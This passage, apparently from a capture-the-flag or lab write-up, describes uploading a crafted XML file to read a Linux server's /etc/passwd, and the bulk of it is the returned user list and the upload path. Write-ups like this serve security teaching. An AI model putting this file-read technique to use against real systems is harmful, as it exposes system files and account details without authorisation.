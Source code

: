 Since the system is a Linux system, I’ve requested the **/etc/passwd** file.  
This file will allow us to see what users are on the machine.  
Here is what came back when we uploaded the XML file to the server:  

```
 PROCESSED BLOGPOST: 
  Author: Gerh
 Subject: BinaryChaos
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false

 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
```
 